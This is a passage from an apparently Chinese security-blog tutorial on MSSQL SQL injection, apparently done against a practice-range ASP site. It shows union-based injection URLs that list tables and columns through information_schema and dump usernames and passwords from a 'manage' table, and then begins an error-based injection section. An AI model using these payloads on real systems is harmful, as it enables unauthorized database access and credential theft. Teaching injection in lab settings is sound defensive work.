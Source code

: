 ### <a class="reference-link" name="6%E3%80%81information_schema"></a>6、information_schema

值得一提的是，除了借助sysobjects表和syscolumns表获取表名、列名外，mssql数据库中也兼容information_schema，里面存放了数据表表名和字段名，但是查询的数据好像存在一些问题，只查询到了manager表。

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 table_name from information_schema.tables where table_name &lt;&gt; 'manager'),null -- qwe
```

[![](https://p1.ssl.qhimg.com/t0137da5be343f70f2e.png)](https://p1.ssl.qhimg.com/t0137da5be343f70f2e.png)

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 column_name from information_schema.columns where table_name = 'manage' ),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select top 1 column_name from information_schema.columns where table_name = 'manage' and column_name not in ('id','username')),null -- qwe
```

[![](https://p3.ssl.qhimg.com/t01498aaac4f709b4ec.png)](https://p3.ssl.qhimg.com/t01498aaac4f709b4ec.png)

[![](https://p4.ssl.qhimg.com/t011d74ab2d9658c021.png)](https://p4.ssl.qhimg.com/t011d74ab2d9658c021.png)

### <a class="reference-link" name="7%E3%80%81%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE"></a>7、获取数据

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,username,password,null from manage-- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,username,password,null from manage where username &lt;&gt; 'admin_mz'-- qwe
```

[![](https://p5.ssl.qhimg.com/t01188d69b4c3307b79.png)](https://p5.ssl.qhimg.com/t01188d69b4c3307b79.png)

解密获取密码

[![](https://p2.ssl.qhimg.com/t016cb243729a0f493a.png)](https://p2.ssl.qhimg.com/t016cb243729a0f493a.png)



## 0x04 报错注入

mssql数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入。

### <a class="reference-link" name="1%E3%80%81%E7%9B%B4%E6%8E%A5%E6%8A%A5%E9%94%99"></a>1、直接报错

等号两边数据类型不一致配合子查询获取数据。
